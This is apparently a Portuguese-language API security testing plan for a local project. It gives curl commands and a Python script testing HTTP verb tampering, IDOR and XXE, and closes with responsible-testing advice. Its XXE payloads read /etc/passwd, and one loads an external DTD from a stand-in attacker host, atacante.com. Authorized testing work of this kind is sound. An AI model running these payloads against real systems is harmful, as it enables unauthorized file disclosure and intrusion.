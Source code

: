 # Relatório 2 – Roteiro de Testes de Segurança em APIs

## Introdução
Este relatório apresenta um roteiro detalhado para a realização de testes de segurança nas principais rotas de API do projeto, com foco em três tipos de vulnerabilidades: HTTP Verb Tampering, IDOR (Insecure Direct Object Reference) e XXE (XML External Entity). As recomendações e observações de segurança também estão incluídas para garantir a condução responsável dos testes.

## Principais Rotas de API
O projeto possui as seguintes rotas de API principais:
- `/api/v1/rasa-conversations/`
- `/api/v1/opinion-component/`
- `/api/v1/conversations/`
- `/api/v1/comments/`
- `/api/v1/votes/`
- `/api/v1/clusterizations/`
- `/api/v1/profiles/`
- `/api/v1/boards/`
- `/api/v1/users/`
- `/api/v1/` (autenticação)

## 1. HTTP Verb Tampering
Teste o comportamento dos endpoints utilizando diferentes métodos HTTP:

```bash
# Teste de Autenticação
curl -X OPTIONS http://localhost:8000/api/v1/token/
curl -X PUT http://localhost:8000/api/v1/token/
curl -X DELETE http://localhost:8000/api/v1/token/
curl -X PATCH http://localhost:8000/api/v1/token/
curl -X HEAD http://localhost:8000/api/v1/token/

# Teste de Usuários
curl -X OPTIONS http://localhost:8000/api/v1/users/
curl -X PUT http://localhost:8000/api/v1/users/1/
curl -X DELETE http://localhost:8000/api/v1/users/1/
curl -X PATCH http://localhost:8000/api/v1/users/1/
curl -X HEAD http://localhost:8000/api/v1/users/1/

# Teste de Perfis
curl -X OPTIONS http://localhost:8000/api/v1/profiles/
curl -X PUT http://localhost:8000/api/v1/profiles/1/
curl -X DELETE http://localhost:8000/api/v1/profiles/1/
curl -X PATCH http://localhost:8000/api/v1/profiles/1/
curl -X HEAD http://localhost:8000/api/v1/profiles/1/

# Teste de Conversas
curl -X OPTIONS http://localhost:8000/api/v1/conversations/
curl -X PUT http://localhost:8000/api/v1/conversations/1/
curl -X DELETE http://localhost:8000/api/v1/conversations/1/
curl -X PATCH http://localhost:8000/api/v1/conversations/1/
curl -X HEAD http://localhost:8000/api/v1/conversations/1/
```

## 2. IDOR (Insecure Direct Object Reference)
Teste o acesso e modificação de recursos de outros usuários:

```bash
# Teste de Usuários
curl -X GET http://localhost:8000/api/v1/users/2/ -H "Authorization: Bearer seu_token"

# Teste de Perfis
curl -X PUT http://localhost:8000/api/v1/profiles/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"phone_number": "123456789"}'

# Teste de Conversas
curl -X GET http://localhost:8000/api/v1/conversations/2/ -H "Authorization: Bearer seu_token"

# Teste de Comentários
curl -X PUT http://localhost:8000/api/v1/comments/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"content": "comentário modificado"}'

# Teste de Votos
curl -X PUT http://localhost:8000/api/v1/votes/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"choice": "agree"}'

# Teste de Clusterizações
curl -X GET http://localhost:8000/api/v1/clusterizations/2/ -H "Authorization: Bearer seu_token"

# Teste de Quadros
curl -X PUT http://localhost:8000/api/v1/boards/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"title": "quadro modificado"}'
```

## 3. XXE (XML External Entity)
Teste endpoints que aceitam XML para identificar possíveis vulnerabilidades XXE:

```bash
# Criar arquivo XML malicioso
cat > payload.xml << 'EOF'
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
EOF

# Teste de Conversas
curl -X POST http://localhost:8000/api/v1/conversations/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d @payload.xml

# Teste de Comentários
curl -X POST http://localhost:8000/api/v1/comments/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d @payload.xml

# Criar arquivo XML com referência a entidade externa
cat > external.xml << 'EOF'
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://atacante.com/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
EOF

# Teste de Parameter Pollution
curl -X POST http://localhost:8000/api/v1/conversations/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'
```

## Script Python para Testes Automatizados

```python
import requests
import json
import xml.etree.ElementTree as ET

class SecurityTester:
    def __init__(self, base_url, token):
        self.base_url = base_url
        self.headers = {
            "Authorization": f"Bearer {token}",
            "Content-Type": "application/json"
        }
    
    def test_http_verb_tampering(self, endpoint):
        verbs = ["OPTIONS", "PUT", "DELETE", "PATCH", "HEAD"]
        for verb in verbs:
            response = requests.request(verb, f"{self.base_url}{endpoint}", headers=self.headers)
            print(f"Testing {verb} on {endpoint}: {response.status_code}")
    
    def test_idor(self, endpoint, resource_id):
        response = requests.get(f"{self.base_url}{endpoint}/{resource_id}", headers=self.headers)
        print(f"Testing IDOR on {endpoint}/{resource_id}: {response.status_code}")
    
    def test_xxe(self, endpoint):
        xxe_payload = """<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>\n<!DOCTYPE foo [\n<!ELEMENT foo ANY >\n<!ENTITY xxe SYSTEM \"file:///etc/passwd\" >]>\n<foo>&xxe;</foo>"""
        headers = self.headers.copy()
        headers["Content-Type"] = "application/xml"
        response = requests.post(f"{self.base_url}{endpoint}", data=xxe_payload, headers=headers)
        print(f"Testing XXE on {endpoint}: {response.status_code}")

# Uso do script
tester = SecurityTester("http://localhost:8000/api/v1", "seu_token")

# Testar HTTP Verb Tampering
endpoints = ["/users", "/profiles", "/conversations", "/comments"]
for endpoint in endpoints:
    tester.test_http_verb_tampering(endpoint)

# Testar IDOR
tester.test_idor("/users", "2")
tester.test_idor("/profiles", "2")
tester.test_idor("/conversations", "2")

# Testar XXE
tester.test_xxe("/conversations")
tester.test_xxe("/comments")
```

## Recomendações para os Testes

1. **HTTP Verb Tampering**:
   - Teste todos os verbos HTTP possíveis
   - Verifique se há métodos não documentados
   - Observe as respostas para identificar comportamentos inesperados

2. **IDOR**:
   - Teste com diferentes IDs de recursos
   - Verifique se há validação de propriedade
   - Teste diferentes níveis de acesso
   - Verifique se há vazamento de informações

3. **XXE**:
   - Teste diferentes payloads XML
   - Verifique se há processamento de XML
   - Teste diferentes tipos de entidades
   - Verifique se há vazamento de informações do sistema

## Observações de Segurança

1. Sempre teste em ambiente controlado
2. Documente todas as vulnerabilidades encontradas
3. Não execute testes em produção sem autorização
4. Mantenha um registro de todos os testes realizados
5. Reporte as vulnerabilidades de forma responsável

> **Atenção:** Estes testes devem ser realizados apenas em ambientes de desenvolvimento ou com autorização explícita. 